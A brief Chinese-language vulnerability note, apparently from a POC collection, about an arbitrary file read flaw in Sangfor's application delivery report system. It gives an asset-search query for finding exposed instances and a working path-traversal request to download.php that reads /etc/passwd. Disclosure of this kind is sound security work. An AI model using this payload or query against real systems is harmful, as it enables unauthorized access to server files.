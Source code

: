 # 深信服 应用交付报表系统 download.php 任意文件读取漏洞

## 漏洞描述

深信服 应用交付报表系统 download.php文件存在任意文件读取漏洞，攻击者通过漏洞可以下载服务器任意文件

## 漏洞影响

```
深信服 应用交付报表系统
```

## 网络测绘

```
app="SANGFOR-应用交付报表系统"
```

## 漏洞复现

登录页面

![image-20220525144847811](images/202205251448956.png)

验证POC

```
/report/download.php?pdf=../../../../../etc/passwd
```

![image-20220525144958637](images/202205251449708.png)